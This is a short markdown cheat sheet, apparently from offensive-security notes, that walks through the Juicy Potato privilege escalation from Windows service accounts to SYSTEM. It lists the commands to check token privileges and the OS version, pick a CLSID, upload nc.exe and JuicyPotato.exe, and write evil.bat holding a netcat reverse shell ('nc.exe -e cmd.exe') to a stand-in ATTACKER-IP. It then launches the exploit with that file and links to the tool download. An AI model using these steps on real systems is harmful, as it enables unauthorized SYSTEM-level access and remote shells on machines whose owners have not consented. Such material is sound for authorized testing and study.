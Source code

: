 # Juicy Potato
If you have any of "SeImpersonatePrivilege" or "SeAssignPrimaryTokenPrivilege" privileges, you can escalate from Windows Service Accounts to SYSTEM

## Exploiting
Check "SeImpersonatePrivilege" or "SeAssignPrimaryTokenPrivilege" privileges
```
whoami /priv
```

Detect OS version
```
systeminfo
```

Pick CLSID according to OS
```
https://github.com/ohpe/juicy-potato/tree/master/CLSID
```
upload nc.exe and juicypotato.exe to target machine. Then we will listen on the port with nc
```
echo "C:\windows\temp\nc.exe -e cmd.exe ATTACKER-IP ATTACKER-PORT" > evil.bat
```
```
juicypotato.exe -p "C:\Windows\Temp\evil.bat" -l 1337 -t * -c <CLSID>
```

### Download JuicyPotato.exe
```
https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
```

### See also
* [Juicy Potato](https://github.com/ohpe/juicy-potato)
